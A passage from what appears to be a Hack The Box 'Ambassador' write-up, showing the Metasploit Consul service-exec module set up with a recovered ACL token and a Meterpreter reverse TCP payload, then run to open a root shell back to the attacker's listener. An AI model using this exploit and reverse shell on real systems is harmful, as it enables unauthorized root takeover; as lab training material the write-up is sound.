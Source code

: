     Payload options (linux/x86/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Linux
    
    View the full module info with the info, or info -d command.
    

The important things to set are the `ACL_TOKEN` (recovered above), the
`RHOSTS` (set to localhost tunnel), and the payload. Running this gives a
shell as root:

    
    
    msf6 exploit(multi/misc/consul_service_exec) > run
                                  
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Creating service 'SpSyWPB'
    [*] Service 'SpSyWPB' successfully created.
    [*] Waiting for service 'SpSyWPB' script to trigger
    [*] Sending stage (1017704 bytes) to 10.10.11.183
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.183:46010) at 2023-01-26 18:02:45 +0000
    [*] Removing service 'SpSyWPB'
    [*] Command Stager progress - 100.00% done (763/763 bytes)
    
    meterpreter > getuid 
    Server username: root
    

[](/2023/01/28/htb-ambassador.html)

